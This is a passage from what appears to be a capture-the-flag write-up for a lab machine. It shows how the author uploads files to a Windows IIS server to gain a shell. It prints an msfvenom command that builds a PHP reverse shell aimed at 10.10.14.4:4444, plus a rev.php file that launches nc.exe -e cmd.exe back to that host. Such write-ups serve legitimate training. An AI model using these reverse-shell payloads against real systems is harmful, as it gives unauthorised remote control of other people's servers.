 I was curious if I could also write files using the same method.

I create a PHP reverse shell using `msfvenom` and was able to upload it to the server.

```
$ msfvenom -p php/reverse_php LHOST=10.10.14.4 LPORT=4444 -o shell.php            
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3042 bytes
Saved as: shell.php
```

Then running a `netcat` listener, I was able to gain remote access as the `iis apppool\wifidelity` user.

<img src="/assets/img/posts/Control/low-level-remote-access-wifidelity.png" width="75%" height="75%">

However, that connection would die every so often if I wasn't actively using it.

Using the same exploit, I decided to upload `nc.exe` to the `C:\inetpub\wwwroot\uploads\` directory, along with a new PHP file (`rev.php`) to execute it.

`rev.php` contents:
```
<?php system('c:\inetpub\wwwroot\uploads\nc.exe -e cmd.exe 10.10.14.4 4444') ?>
```

<img src="/assets/img/posts/Control/sqlmap-write-file-nc_exe.png">
